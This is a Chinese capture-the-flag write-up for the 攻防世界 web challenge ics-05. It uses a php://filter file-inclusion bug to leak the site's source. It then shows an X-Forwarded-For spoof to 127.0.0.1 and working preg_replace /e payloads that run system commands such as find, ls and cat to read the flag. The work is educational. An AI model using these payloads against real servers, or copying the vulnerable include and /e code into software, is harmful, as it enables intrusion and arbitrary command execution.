





【write up】攻防世界-Web-ics-05
某菜鸡被大佬拉过来暴“锤”了一顿后才有了这篇
本题考察知识点
文件包含漏洞
PHP伪协议中的php://filter
解题
1.发现只有维护中心链接可以进入

接着可以查看源代码

接着可以看到url发生了变化

接着可以发现界面出现了index，那么尝试修改page值，发现居然显示的界面发生了改变，那么就可以尝试一波文件包含读源码的漏洞哇！

骚操作了一波之后，解得源码：
PD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwoKQHNlc3Npb25fc3RhcnQoKTsKcG9zaXhfc2V0dWlkKDEwMDApOwoKCj8+CjwhRE9DVFlQRSBIVE1MPgo8aHRtbD4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgbmFtZT0icmVuZGVyZXIiIGNvbnRlbnQ9IndlYmtpdCI+CiAgICA8bWV0YSBodHRwLWVxdWl2PSJYLVVBLUNvbXBhdGlibGUiIGNvbnRlbnQ9IklFPWVkZ2UsY2hyb21lPTEiPgogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLCBtYXhpbXVtLXNjYWxlPTEiPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJsYXl1aS9jc3MvbGF5dWkuY3NzIiBtZWRpYT0iYWxsIj4KICAgIDx0aXRsZT7orr7lpIfnu7TmiqTkuK3lv4M8L3RpdGxlPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDx1bCBjbGFzcz0ibGF5dWktbmF2Ij4KICAgICAgICA8bGkgY2xhc3M9ImxheXVpLW5hdi1pdGVtIGxheXVpLXRoaXMiPjxhIGhyZWY9Ij9wYWdlPWluZGV4Ij7kupHlubPlj7Dorr7lpIfnu7TmiqTkuK3lv4M8L2E+PC9saT4KICAgIDwvdWw+CiAgICA8ZmllbGRzZXQgY2xhc3M9ImxheXVpLWVsZW0tZmllbGQgbGF5dWktZmllbGQtdGl0bGUiIHN0eWxlPSJtYXJnaW4tdG9wOiAzMHB4OyI+CiAgICAgICAgPGxlZ2VuZD7orr7lpIfliJfooag8L2xlZ2VuZD4KICAgIDwvZmllbGRzZXQ+CiAgICA8dGFibGUgY2xhc3M9ImxheXVpLWhpZGUiIGlkPSJ0ZXN0Ij48L3RhYmxlPgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2h0bWwiIGlkPSJzd2l0Y2hUcGwiPgogICAgICAgIDwhLS0g6L+Z6YeM55qEIGNoZWNrZWQg55qE54q25oCB5Y+q5piv5ryU56S6IC0tPgogICAgICAgIDxpbnB1dCB0eXBlPSJjaGVja2JveCIgbmFtZT0ic2V4IiB2YWx1ZT0ie3tkLmlkfX0iIGxheS1za2luPSJzd2l0Y2giIGxheS10ZXh0PSLlvIB85YWzIiBsYXktZmlsdGVyPSJjaGVja0RlbW8iIHt7IGQuaWQ9PTEgMDAwMyA/ICdjaGVja2VkJyA6ICcnIH19PgogICAgPC9zY3JpcHQ+CiAgICA8c2NyaXB0IHNyYz0ibGF5dWkvbGF5dWkuanMiIGNoYXJzZXQ9InV0Zi04Ij48L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ3RhYmxlJywgZnVuY3Rpb24oKSB7CiAgICAgICAgdmFyIHRhYmxlID0gbGF5dWkudGFibGUsCiAgICAgICAgICAgIGZvcm0gPSBsYXl1aS5mb3JtOwoKICAgICAgICB0YWJsZS5yZW5kZXIoewogICAgICAgICAgICBlbGVtOiAnI3Rlc3QnLAogICAgICAgICAgICB1cmw6ICcvc29tcnRoaW5nLmpzb24nLAogICAgICAgICAgICBjZWxsTWluV2lkdGg6IDgwLAogICAgICAgICAgICBjb2xzOiBbCiAgICAgICAgICAgICAgICBbCiAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnbnVtYmVycycgfSwKICAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnY2hlY2tib3gnIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdpZCcsIHRpdGxlOiAnSUQnLCB3aWR0aDogMTAwLCB1bnJlc2l6ZTogdHJ1ZSwgc29ydDogdHJ1ZSB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnbmFtZScsIHRpdGxlOiAn6K6+5aSH5ZCNJywgdGVtcGxldDogJyNuYW1lVHBsJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnYXJlYScsIHRpdGxlOiAn5Yy65Z+fJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnc3RhdHVzJywgdGl0bGU6ICfnu7TmiqTnirbmgIEnLCBtaW5XaWR0aDogMTIwLCBzb3J0OiB0cnVlIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdjaGVjaycsIHRpdGxlOiAn6K6+5aSH5byA5YWzJywgd2lkdGg6IDg1LCB0ZW1wbGV0OiAnI3N3aXRjaFRwbCcsIHVucmVzaXplOiB0cnVlIH0KICAgICAgICAgICAgICAgIF0KICAgICAgICAgICAgXSwKICAgICAgICAgICAgcGFnZTogdHJ1ZQogICAgICAgIH0pOwogICAgfSk7CiAgICA8L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ2VsZW1lbnQnLCBmdW5jdGlvbigpIHsKICAgICAgICB2YXIgZWxlbWVudCA9IGxheXVpLmVsZW1lbnQ7IC8v5a+86Iiq55qEaG92ZXLmlYjmnpzjgIHkuoznuqfoj5zljZXnrYnlip/og73vvIzpnIDopoHkvp3otZZlbGVtZW505qih5Z2XCiAgICAgICAgLy/nm5HlkKzlr7zoiKrngrnlh7sKICAgICAgICBlbGVtZW50Lm9uKCduYXYoZGVtbyknLCBmdW5jdGlvbihlbGVtKSB7CiAgICAgICAgICAgIC8vY29uc29sZS5sb2coZWxlbSkKICAgICAgICAgICAgbGF5ZXIubXNnKGVsZW0udGV4dCgpKTsKICAgICAgICB9KTsKICAgIH0pOwogICAgPC9zY3JpcHQ+Cgo8P3BocAoKJHBhZ2UgPSAkX0dFVFtwYWdlXTsKCmlmIChpc3NldCgkcGFnZSkpIHsKCgoKaWYgKGN0eXBlX2FsbnVtKCRwYWdlKSkgewo/PgoKICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgogICAgPGRpdiBzdHlsZT0idGV4dC1hbGlnbjpjZW50ZXIiPgogICAgICAgIDxwIGNsYXNzPSJsZWFkIj48P3BocCBlY2hvICRwYWdlOyBkaWUoKTs/PjwvcD4KICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgoKPD9waHAKCn1lbHNlewoKPz4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KICAgICAgICA8ZGl2IHN0eWxlPSJ0ZXh0LWFsaWduOmNlbnRlciI+CiAgICAgICAgICAgIDxwIGNsYXNzPSJsZWFkIj4KICAgICAgICAgICAgICAgIDw/cGhwCgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ2lucHV0JykgPiAwKSB7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICB9CgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ3RhOnRleHQnKSA+IDApIHsKICAgICAgICAgICAgICAgICAgICBkaWUoKTsKICAgICAgICAgICAgICAgIH0KCiAgICAgICAgICAgICAgICBpZiAoc3RycG9zKCRwYWdlLCAndGV4dCcpID4gMCkgewogICAgICAgICAgICAgICAgICAgIGRpZSgpOwogICAgICAgICAgICAgICAgfQoKICAgICAgICAgICAgICAgIGlmICgkcGFnZSA9PT0gJ2luZGV4LnBocCcpIHsKICAgICAgICAgICAgICAgICAgICBkaWUoJ09rJyk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgaW5jbHVkZSgkcGFnZSk7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICA/PgogICAgICAgIDwvcD4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KCjw/cGhwCn19CgoKLy/mlrnkvr/nmoTlrp7njrDovpPlhaXovpPlh7rnmoTlip/og70s5q2j5Zyo5byA5Y+R5Lit55qE5Yqf6IO977yM5Y+q6IO95YaF6YOo5Lq65ZGY5rWL6K+VCgppZiAoJF9TRVJWRVJbJ0hUVFBfWF9GT1JXQVJERURfRk9SJ10gPT09ICcxMjcuMC4wLjEnKSB7CgogICAgZWNobyAiPGJyID5XZWxjb21lIE15IEFkbWluICEgPGJyID4iOwoKICAgICRwYXR0ZXJuID0gJF9HRVRbcGF0XTsKICAgICRyZXBsYWNlbWVudCA9ICRfR0VUW3JlcF07CiAgICAkc3ViamVjdCA9ICRfR0VUW3N1Yl07CgogICAgaWYgKGlzc2V0KCRwYXR0ZXJuKSAmJiBpc3NldCgkcmVwbGFjZW1lbnQpICYmIGlzc2V0KCRzdWJqZWN0KSkgewogICAgICAgIHByZWdfcmVwbGFjZSgkcGF0dGVybiwgJHJlcGxhY2VtZW50LCAkc3ViamVjdCk7CiAgICB9ZWxzZXsKICAgICAgICBkaWUoKTsKICAgIH0KCn0KCgoKCgo/PgoKPC9ib2R5PgoKPC9odG1sPgo=
简直了…居然成功了…那么下一步就是解码，审计源码
<?php
error_reporting(0);
@session_start();
posix_setuid(1000);
?>
<!DOCTYPE HTML>
<html>
<head>
<meta charset="utf-8">
<meta name="renderer" content="webkit">
<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
<link rel="stylesheet" href="layui/css/layui.css" media="all">
<title>设备维护中心</title>
<meta charset="utf-8">
</head>
<body>
<ul class="layui-nav">
<li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
</ul>
<fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
<legend>设备列表</legend>
</fieldset>
<table class="layui-hide" id="test"></table>
<script type="text/html" id="switchTpl">
<!-- 这里的 checked 的状态只是演示 -->
<input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
</script>
<script src="layui/layui.js" charset="utf-8"></script>
<script>
layui.use('table', function() {
var table = layui.table,
form = layui.form;
table.render({
elem: '#test',
url: '/somrthing.json',
cellMinWidth: 80,
cols: [
[
{ type: 'numbers' },
{ type: 'checkbox' },
{ field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
{ field: 'name', title: '设备名', templet: '#nameTpl' },
{ field: 'area', title: '区域' },
{ field: 'status', title: '维护状态', minWidth: 120, sort: true },
{ field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
]
],
page: true
});
});
</script>
<script>
layui.use('element', function() {
var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
//监听导航点击
element.on('nav(demo)', function(elem) {
//console.log(elem)
layer.msg(elem.text());
});
});
</script>
<?php
$page = $_GET[page];
if (isset($page)) {
if (ctype_alnum($page)) {
?>
<br /><br /><br /><br />
<div style="text-align:center">
<p class="lead"><?php echo $page; die();?></p>
<br /><br /><br /><br />
<?php
}else{
?>
<br /><br /><br /><br />
<div style="text-align:center">
<p class="lead">
<?php
if (strpos($page, 'input') > 0) {
die();
}
if (strpos($page, 'ta:text') > 0) {
die();
}
if (strpos($page, 'text') > 0) {
die();
}
if ($page === 'index.php') {
die('Ok');
}
include($page);
die();
?>
</p>
<br /><br /><br /><br />
<?php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
echo "<br >Welcome My Admin ! <br >";
$pattern = $_GET[pat];
$replacement = $_GET[rep];
$subject = $_GET[sub];
if (isset($pattern) && isset($replacement) && isset($subject)) {
preg_replace($pattern, $replacement, $subject);
}else{
die();
}
}
?>
</body>
</html>然后发现里面有猫腻的代码：
<?php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
echo "<br >Welcome My Admin ! <br >";
$pattern = $_GET[pat];
$replacement = $_GET[rep];
$subject = $_GET[sub];
if (isset($pattern) && isset($replacement) && isset($subject)) {
preg_replace($pattern, $replacement, $subject);
}else{
die();
}
}
?>分析preg_replace函数：
函数作用：搜索subject中匹配pattern的部分， 以replacement进行替换。
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。preg_replace函数存在命令执行特性
本题此处主要考察的是preg_replace函数在使用/e模式的时候，会导致代码执行产生问题
/e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。
当pattern指明
/e标志时 ,preg_replace()会将replacement部分的代码当作PHP代码执行(简单的说就是将replacement参数值放入eval()结构中)
接着就可以利用XFF攻击进行了~
1.访问者的IP为127.0.0.1即可以用admin的身份进入页面
修改：X-Forward-For: 127.0.0.1
变成管理员
2./e利用（preg_replace）
审计代码中可以看到有三个参数：pat、rep、sub
其实利用
preg_replace中/e标志执行代码并不算是一个漏洞 , 而只是一个特性 ./e参数也已经在PHP 7中被取消了 . 这里可以执行任意代码是因为该函数参数可以由攻击者任意构造
查看phpinfo()
Payload :
?pat=/test/e&rep=phpinfo()&sub=test
查看system()执行系统命令
Payload:?pat=/test/e&rep=system('find%20/%20-iname%20flag')&sub=testurl中不能出现空格，所以要把空格要用%20或者用”+”替换
然后会发现一个文件目录 /var/www/html/s3chahahaDir/flag/ ！这个目录存在有与flag相关的文件。
那么就查看该文件是否真的与flag相关
Payload:?pat=/test/e&rep=system('ls%20/var/www/html/s3chahahaDir/flag/')&sub=test然后出现了一个flag.php
接着！
读取flag.php即可！
Payload:?pat=/test/e&rep=system('ls%20/var/www/html/s3chahahaDir/flag/flag.php')&sub=test（据说：也可以通过php://filter来读取flag.php，结果是一样的）
Payload:?pat=/test/e&rep=system('cat%20/var/www/html/s3chahahaDir/flag/flag.php')&sub=test接着查看源代码即可获得flag

接着本题就到此结束了。
本题思路清晰明了。
https://www.jianshu.com/p/c70b7ab32015
https://www.leavesongs.com/PENETRATION/php-filter-magic.html
https://www.php.net/manual/zh/book.filter.php
http://www.guildhab.top/?p=481